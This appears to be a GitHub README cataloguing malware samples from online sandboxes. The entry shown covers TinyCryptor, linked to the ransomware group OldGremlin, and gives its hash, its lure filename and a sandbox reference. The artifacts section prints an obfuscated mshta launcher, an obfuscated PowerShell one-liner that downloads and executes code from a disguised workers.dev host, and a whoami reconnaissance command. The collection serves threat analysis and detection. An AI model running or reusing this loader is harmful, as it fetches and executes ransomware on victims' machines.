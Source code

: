 # sandb0xed

Interesting malware samples from popular online sandbox services such as [Any.Run](https://app.any.run/), [tria.ge](https://tria.ge/), etc.

## TinyCryptor

* MD5: 306978669EAD832F1355468574DF1680
* Filename: Рекомендации_МИР.docx.lnk
* Reference: [Any.Run](https://app.any.run/tasks/f63e2c95-c558-4d94-b62e-b93a18eca0aa/)
* Threat Actor: [OldGremlin](https://www.group-ib.com/blog/oldgremlin)

> "OldGremlin is the only Russian-speaking ransomware operator that violates the unspoken rule about not working within Russia and post-Soviet countries. They carry out multistage targeted attacks on Russian companies and banks using sophisticated tactics and techniques similar to those employed by APT groups. As with similar groups that target foreign entities, OldGremlin can be classed as part of Big Game Hunting, which brings together ransomware operators targeting large corporate networks." - Oleg Skulkin, Senior Digital Forensics Analyst at Group-IB

### Artifacts

![image](https://user-images.githubusercontent.com/61026070/94177556-71cebb00-feb9-11ea-8fba-38de46fc8922.png)

```powershell
 "C:\Windows\System32\cmd.exe" /v /c set m=m^s^h^ta && set a=Р^екоменд^ации_МИР.do^cx.lnk && if exist !cd!\!a! (!m! !cd!\!a!) else (!m! !temp!\Temp1_Рекомендации.zip\!a!)
```

```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -nop -c while(!(.("""{0}{1}{2}"""-f ("""{1}{0}""" -f 'st-','Te'),("""{2}{1}{0}""" -f 'ec','onn','C'),("""{1}{0}"""-f'n','tio')) ("""{1}{2}{0}""" -f ("""{0}{1}"""-f("""{1}{0}"""-f'.c','le'),'om'),'g','oog') -q)) {&("""{1}{2}{0}{3}""" -f ("""{0}{1}""" -f("""{0}{1}""" -f 'a','rt-'),'Sl'),'S','t','eep') -s 5} .("""{1}{0}""" -f'ex','i')(.("""{2}{1}{0}""" -f't',("""{1}{0}"""-f 'jec','Ob'),("""{0}{1}""" -f'Ne','w-')) ("""{0}{4}{1}{2}{3}"""-f ("""{1}{0}""" -f 'W',("""{0}{1}"""-f 'Net','.')),'C','li','ent','eb')).("""{3}{4}{1}{2}{0}"""-f'ing',("""{1}{0}"""-f'lo','wn'),("""{1}{0}""" -f 'Str','ad'),'D','o')."""In`Vo`kE"""(("""https://schedule.winupdate.workers.dev/load.php"""))
```

```powershell
"C:\Windows\system32\whoami.exe" /groups /fo csv
```
